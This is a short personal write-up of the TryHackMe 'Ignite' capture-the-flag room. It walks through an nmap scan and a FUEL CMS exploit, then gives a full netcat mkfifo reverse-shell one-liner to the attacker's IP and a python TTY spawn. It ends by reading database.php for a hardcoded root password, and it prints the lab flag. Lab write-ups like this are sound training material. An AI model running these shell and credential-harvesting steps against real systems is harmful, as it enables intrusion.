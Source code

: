 # Matheus Jesus 04-04-2020

## Try Hack Me - Ignite (https://tryhackme.com/room/ignite)

### Ref (https://unicornsec.com/home/tryhackme-ignite)

### IP 10.10.214.229

### Net scan

nmap -sC -sV -oN nmap_initial 10.10.214.229

port 80 open

### Exploit DB

https://www.exploit-db.com/exploits/47138

* Download the Exploit
* Edit it (IP)
* Execute and write commands to be ran on the server

### NC Netcat

On Local
nc -nlvp 1337

On remote
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.5.234 1337 >/tmp/f

#### Commands to be ran on the reverse shell

* cd /home/www-data
* ls
* cat flag.txt (6470e394cbf6dab6a91682cc8585059b)

#### Spawn TTY (To access Root)

On local NC:
python -c 'import pty; pty.spawn("/bin/bash")'

#### Privilege Escalation

The http://10.10.214.229:80 says:

Install the FUEL CMS database by first creating the database in MySQL and then importing the fuel/install/fuel_schema.sql file. After creating the database, change the database configuration found in fuel/application/config/database.php to include your hostname (e.g. localhost), username, password and the database to match the new database you created.

##### Commands

* locate database.php (/var/www/html/fuel/application/config/database.php)
* cat database.php

```php
 $db['default'] = array(
'dsn' => '',
'hostname' => 'localhost',
'username' => 'root',
'password' => 'mememe',
'database' => 'fuel_schema',
'dbdriver' => 'mysqli',
'dbprefix' => '',
'pconnect' => FALSE,
'db_debug' => (ENVIRONMENT !== 'production'),
'cache_on' => FALSE,
'cachedir' => '',
'char_set' => 'utf8',
'dbcollat' => 'utf8_general_ci',
'swap_pre' => '',
'encrypt' => FALSE,
'compress' => FALSE,
'stricton' => FALSE,
'failover' => array(),
'save_queries' => TRUE
);
```

#### root password is HARDCODED

DONE!
